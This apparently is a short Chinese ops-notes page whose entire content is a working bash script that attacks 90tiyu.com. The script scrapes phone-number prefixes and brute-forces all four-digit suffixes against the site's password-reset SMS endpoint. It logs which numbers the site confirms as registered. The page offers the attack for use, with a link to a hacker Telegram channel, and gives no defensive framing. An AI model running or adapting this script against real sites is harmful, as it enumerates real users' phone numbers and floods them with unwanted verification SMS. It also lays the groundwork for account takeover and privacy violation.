

# 90tiyu.com 撞库出电话

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202206031626-%E8%BF%9B%E9%98%B6%E6%8A%80%E6%9C%AF%2BShell-%E7%9B%AE%E6%A0%87%E7%A4%BA%E4%BE%8B%20%E6%92%9E%E5%BA%93%E5%87%BA%E7%94%B5%E8%AF%9D.md)

> 原文：[90tiyu.com 撞库出电话](https://xn--6o0a585a.gitbook.io/devops/jin-jie-ji-shu/90tiyu.com-zhuang-ku-chu-dian-hua.html)

> 来源：GitBook 网页 HTML｜页面时间：2022-06-03 16:26｜日期依据：GitBook 页面更新时间



<https://t.me/HackerNiao/35753>

```bash
#!/bin/bash
lynx -dump "http://so.qqdna.com/" | grep php | awk '{print $2}' | parallel -j 30 -k lynx -dump {} | grep mobile | awk '{print $2}' | sed "s/............................//" > phone
for p in `cat phone | sed "s/.html//"`;do
	for n in `echo $p | awk -F'_' '{print $2}'`;do
		for a in {0..9}{0..9}{0..9}{0..9};do
			echo "$n$a 撞库中..."
			curl -s "http://www.90tiyu.com/library/utility/json.ashx?act=getpwdsendphoneverify&phone=$n$a" | jq | grep 操作成功
			if [ $? = 0 ];then echo "`date "+%Y-%m-%d %H:%M:%S"` $n$a" ;else echo "`date "+%Y-%m-%d %H:%M:%S"` $n$a" >> zk撞库.txt; fi
		done
	done >> `echo "$p" | awk -F'_' '{print $1}'`撞库操作成功.txt
done
```
